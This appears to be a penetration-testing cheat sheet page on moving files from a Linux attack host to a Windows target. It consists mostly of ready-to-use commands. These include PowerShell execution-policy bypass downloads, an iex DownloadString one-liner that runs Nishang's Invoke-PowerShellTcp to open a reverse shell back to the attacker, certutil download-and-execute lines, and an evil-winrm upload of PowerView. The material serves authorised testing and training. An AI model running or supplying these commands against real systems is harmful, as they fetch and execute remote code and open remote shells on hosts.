 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2025-7-24
tags: ["Curl", "Http File Transfer", "File Transfer", "Windows", "Evil-Winrm", "IEX", "IWR", "certutil"]
---
```


{{< tab set1 tab1 >}}powershell{{< /tab >}}
{{< tab set1 tab2 >}}cmd{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

```console {class=sample-code}
$ python3 -m http.server 8443
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
```

<br>

```console
# Invoke-WebRequest
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

```console
# Wget
powershell -ep bypass wget <LOCAL_IP>:<LOCAL_PORT>/<FILE> -Outfile C:\ProgramData\<FILE>
```

```console
# Curl
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -Outfile C:\ProgramData\<FILE>
```

<small>*Note: curl and wget are alias to Invoke-WebRequest*</small>

```console
# Load into memory and Run
```

```console
# Invoke-Expression
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/<FILE>');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -UseBasicParsing)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and Run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> upload /home/kali/PowerView.ps1 C:\ProgramData\PowerView.ps1
                                        
Info: Uploading /home/kali/PowerView.ps1 to C:\ProgramData\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

{{< /tabcontent >}}

